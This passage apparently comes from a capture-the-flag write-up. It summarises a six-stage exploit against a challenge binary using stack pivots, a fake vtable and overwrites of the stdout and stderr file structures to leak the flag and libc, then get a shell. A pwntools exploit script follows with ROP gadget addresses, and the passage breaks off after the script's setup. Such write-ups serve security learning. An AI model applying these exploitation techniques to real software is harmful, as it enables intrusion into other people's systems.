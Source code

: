 After this it's just a matter of stack pivoting several times to do multiple read calls to the relevant offsets of the file pointer structures. The exploit I came up with can be seen below but in case you don't want to read the full exploit here's a quick summary of how it's done:

Stage 1: Overflow, create fake vtable, write flag to stderr, change low byte of stderr to point to write_base, stack pivot to the section with the open file pointers

Stage 2: Set the low byte of write_base in stderr to 0x0, restore stderr to previous condition, set low byte of stdout to point at vtable pointer, stack pivot back to the top of our fake stack

Stage 3: Set the vtable pointer in stdout to point at our fake vtable. Plant stack pivot at higher offset which will be used in last payload to return to exit. Change low byte of stdout to point at write base, stack pivot back to the top of our fake stack

Stage 4: Set low byte of write base in stdout to 0x0, change stdout pointer to point at flag offset, stack pivot back to the top of our fake stack

Stage 5: Write flag to stdout pointer, then return to exit.

Stage 6: Receive our libc leak then proceed to get shell.

```python
from pwn import *

elfPath = './chall'
libcPath = './libc-2.23.so'

env = {'LD_PRELOAD': libcPath}

gdbscript = '''
break *0x400410
break *main
ignore 1 20
ignore 2 1
c
'''
#io = gdb.debug(elfPath, gdbscript=gdbscript, env=env)
io = process(elfPath, env=env)

#Gadgets
#0x000000000040049b : pop r15 ; ret
popgarbage = p64(0x40049b)
#0x000000000040047c : pop rbp ; ret
poprbp = p64(0x40047c)
#0x000000000040049c : pop rdi ; ret
poprdi = p64(0x40049c)
#0x000000000040049e : pop rsi ; ret
poprsi = p64(0x40049e)

leave = p64(0x400499)

abovestdout = 0x601018
abovestdin = 0x601028
abovestderr = 0x601038

fullcontrol = 0x601048

read = p64(0x400410)

retgadget = p64(0x40047d)

fakevtable = 0x601500

main = 0x0040047e

exit = 0x0040043a
#Helper function to call read
```